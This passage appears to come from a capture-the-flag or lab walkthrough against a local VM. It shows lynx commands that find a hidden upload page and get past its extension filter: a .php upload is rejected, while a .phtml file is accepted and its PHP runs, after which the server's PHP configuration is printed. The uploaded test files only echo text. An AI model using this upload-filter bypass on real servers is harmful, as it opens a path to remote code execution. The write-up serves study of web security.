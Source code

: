 `lynx http://192.168.56.112/S3cR3t/`:
```
Index of /S3cR3t

[ICO]       Name                   Last modified      Size  Description
[PARENTDIR] Parent Directory        -                  -    
[DIR]       files/                 2022-05-13 10:21    -    
[ ]         upload.php             2022-05-13 11:52    1.3K ←

Apache/2.4.41 (Ubuntu) Server at 192.168.56.112 Port 80
```

```
Upload your file

[_________________________] [Upload] ←
```

`vim ./php_test.php`:
```php
<?php echo "This is just an echo PHP test."; ?>
```

`lynx http://192.168.56.112/S3cR3t/upload.php`:
```
Upload your file

[./php_test.php__________] [Upload] ←

This extension is not allowed. Sorry, your file was not uploaded. ← 
```
❌ Failed Step.

`vim ./php_test.phtml`:
```php
<?php echo "This is just an echo PHTML test."; ?>
```

`lynx http://192.168.56.112/S3cR3t/upload.php`:
```
Upload your file

[./php_test.phtml________] [Upload] ←

The file php_test.phtml has been uploaded. ← 
```

`lynx http://192.168.56.112/S3cR3t/files/php_test.phtml`:
```
This is just an echo PHTML test. ←
```

`lynx http://192.168.56.112/info.php`

| Directive                 | Local Value                                                                                                                                                                                                                                                                                   | Master Value                                                                                                                                                                                                                                                                        |
|---------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| allow_url_fopen           | On                                                                                                                                                                                                                                                                                            | On                                                                                                                                                                                                                                                                                  |
| allow_url_include         | Off                                                                                                                                                                                                                                                                                           | Off                                                                                                                                                                                                                                                                                 |
| arg_separator.input       | &                                                                                                                                                                                                                                                                                             | &                                                                                                                                                                                                                                                                                   |
| arg_separator.output      | &                                                                                                                                                                                                                                                                                             | &                                                                                                                                                                                                                                                                                   |
| auto_append_file          | no value                                                                                                                                                                                                                                                                                      | no value                                                                                                                                                                                                                                                                            |
| auto_globals_jit          | On                                                                                                                                                                                                                                                                                            | On                                                                                                                                                                                                                                                                                  |